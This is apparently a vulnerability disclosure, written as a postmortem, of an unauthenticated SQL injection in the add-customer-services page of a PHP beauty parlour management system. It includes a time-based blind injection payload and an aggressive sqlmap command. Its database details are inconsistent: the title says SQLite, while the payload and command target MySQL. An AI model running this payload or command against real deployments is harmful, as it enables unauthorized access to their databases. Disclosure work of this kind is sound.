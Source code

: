 # **Postmortem: SQL Injection in Beauty Parlour Management System (PHP, SQLite) v1.0**

## **1. Incident Summary**

- **System Affected**: **Beauty Parlour Management System PHP SQLite Project** (v1.0)  
- **File Location**: `/admin/add-customer-services.php`  
- **Vulnerability Type**: SQL Injection  
- **Authentication Required**: None  
- **Discovered By**: lings3346  

An SQL injection vulnerability has been found where an attacker can supply malicious payloads in the parameter labeled “Array-like #1* ((custom) POST).” This vulnerability enables unauthorized operations on the back-end database without proper validation or sanitization.

---

<img width="1232" alt="image" src="https://github.com/user-attachments/assets/42a45a6c-d621-439e-b9a2-9f0c6ca4f6fb" />


## **2. Timeline**

1. **Initial Discovery**  
   - Security testing uncovered abnormal query processing in `/admin/add-customer-services.php`.

2. **Proof-of-Concept (PoC) Confirmation**  
   - Payloads were tested, demonstrating time-based blind SQL injection.  
   - Example payload:  
     ```makefile
     sids[]=1' AND (SELECT 2169 FROM (SELECT(SLEEP(5)))yHIH) AND 'rcDZ'='rcDZ&sids[]=2&submit=
     ```

3. **Validation with sqlmap**  
   - `sqlmap` confirmed the injection flaw:
     ```bash
     sqlmap -r book.txt --batch --level=5 --risk=3 \
            --random-agent --tamper=space2comment --dbms=mysql
     ```
   - Screenshot evidence captured.
   - <img width="999" alt="image" src="https://github.com/user-attachments/assets/cd4f1f15-ceaf-47ea-b1e7-ac78f40599dd" />


4. **Vulnerability Report Drafted**  
   - Issue documented, including root cause and recommended steps.

---

## **3. Root Cause Analysis**

The primary root cause is **insufficient sanitization** of user inputs in the “Array-like #1* ((custom) POST)” parameter. The system constructs SQL statements with these parameters directly, allowing attackers to embed arbitrary code into the query.

---
